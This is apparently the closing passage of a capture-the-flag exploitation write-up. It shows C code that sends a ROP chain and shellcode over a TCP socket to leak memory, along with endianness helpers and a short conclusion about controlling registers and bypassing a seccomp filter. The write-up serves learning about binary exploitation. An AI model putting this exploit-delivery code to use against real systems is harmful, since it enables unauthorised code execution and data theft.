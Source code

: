 ```c

    chain[ FRAME_OFFSET + 224 ] = 0x0a;

    tcp.send(sock, "257\x0a", 4);
    tcp.send(sock, chain,     N1);
}

void extract_file(sock_t *sock, char *leak_buffer) {

    tcp.send(sock, shellcode, sizeof(shellcode));
    tcp.send(sock, "\x0a", 1);
    tcp.recv(sock, leak_buffer, 0x20);
}

void print_leakage(const char *what, const uint64_t info) {

    printf("%s[+] leaked %s: 0x%016"PRIx64"%s\n", COLOR_GREEN, what, info, COLOR_DFL);
}

uint64_t bytes_to_u64(uint8_t *bytes, const ENDIAN ein) {

    uint64_t result = 0x00;

    for(int32_t i = 0; i < 8; i++) {

        const int32_t index = (ein == ENDIAN_BE) ? 7 - i : i;
        result |= ((uint64_t) bytes[ index ] << (i * 8));
    }

    return result; // output: big endian
}

void u64_to_bytes(const uint64_t num, const ENDIAN eout, uint8_t *buffer) {

    // input: big endian

    for(int32_t i = 0; i < 8; i++) {

        const int32_t index = (eout == ENDIAN_BE) ? 7 - i : i;
        buffer[ index ] = (num & ((uint64_t) 0xff << (i * 8))) >> (i * 8);
    }
}
```

![m21aawm](https://user-images.githubusercontent.com/46600932/155649585-87276df2-48a7-495c-9047-a2c76b584191.png)
<sup>Finally executing the exploit</sup>

## Conclusion

Overall the vulnerability was trivial, but the author made register control pretty hard by intentionally removing ```csu``` gadgets.
The real challenge was to control relevant registers (especially ```rsi```) and then, bypass the seccomp filter.

